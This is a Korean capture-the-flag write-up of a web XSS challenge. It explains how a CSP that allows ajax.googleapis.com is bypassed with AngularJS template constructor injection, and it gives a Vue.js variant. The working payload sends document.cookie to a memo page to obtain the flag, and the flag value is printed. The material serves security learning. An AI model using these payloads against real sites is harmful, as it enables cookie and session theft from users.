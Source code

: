 코드를 살펴보면서 알게 된 핵심은 사용자로 부터 받은 param 값을 제대로 검증을 거치지 않아 xss 취약점이 발생한다는 것이고 이를 보완하기 위하여 CSP 정책을 사용하고 있음을 알 수 있다.

만약 스크립트 태그에서 허용하고 있는 [https://ajax.googleapis.com](https://ajax.googleapis.com) 에서 JSONP callback이 존재하거나 활용할 수 있는 스크립트가 존재한다면 이를 사용할 수 있다. 

여기서 주의해야 할점은 [https://ajax.googleapis.com](https://ajax.googleapis.com) 에서는 오픈 프레임워크인 AngularJS의 템플릿을 사용할 수 있다는 점이다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8ce4b93e-a6e9-44c3-ad2c-e0a04f38f871/Untitled.png)

 AngularJS 템플릿 예제를 보면 script src가 [https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js](https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js) 로 되어있는 것을 볼 수 있다. 즉 이 경로는 이 문제에서도 CSP 정책을 위반하지 않으면서 템플릿을 삽입시켜 injection을 실행할 수 있다는 것이 된다.

템플릿 컨텍스트 내부의 생성자 함수를 접근하는 방식을 통해 스크립트 코드를 실행시킬 수 있으며 이를 이용하여 서버의 쿠키값인 flag를 얻어내면 된다.(memo페이지에 쓰게한다던지 하는 방법으로)

예를들어 {{constructor.constructor("alert(1)")()}}을 넣어주면 alert(1)이라는 스크립트 코드가 실행이 되게 된다.

만약 Vue.js 템플릿이라면 스크립트 태그는 [https://unpkg.com/vue@3](https://unpkg.com/vue@3) 이 된다. Vue.js의 경우는 {{ _Vue.h.constructor("alert(1)")()}} 이 된다. 

이 문제에서는 AngularJS가 스크립트 태그의 오리진으로 설정되어 있으므로 AngularJS 템플릿의 생성자로 접근한다. 

# 공격

공격 코드는 다음과 같이 구성된다.

1. 먼저 스크립트 태그로 AngularJS 파일을 로드한다. 
2. html 태그나 body태그의 ng-app 속성을 추가하여 AngularJS를 사용함을 알린다. 
3. 생성자를 통해 원하는 스크립트를 실행시킨다.
4. memo페이지에 서버측의 쿠키값(FLAG)를 출력시킬 것이므로 location.href와 document.cookie를 이용한다.

즉 <script src="[https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js](https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js)"></script><html ng-app>{{constructor.constructor("location.href='/memo?memo='+document.cookie")()}}</html> 이 된다.

![인덱스.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f435cdd6-1794-4839-b1c3-445eab18bad7/%EC%9D%B8%EB%8D%B1%EC%8A%A4.png)

인덱스 페이지에서 flag 페이지로 이동하고

![공격.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/330e76f0-7785-4477-b035-9cf9ee028e74/%EA%B3%B5%EA%B2%A9.png)

<script src="[https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js](https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js)"></script><html ng-app>{{constructor.constructor("location.href='/memo?memo='+document.cookie")()}}</html>

를 넣어 공격을 해주면

![flag.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f6bd79ce-6b7c-449b-8ed4-d2a9bcc60a05/flag.png)

`DH{741b1b55cfdae94aaaad6c5f1618d167}` 값을 얻을 수 있다.
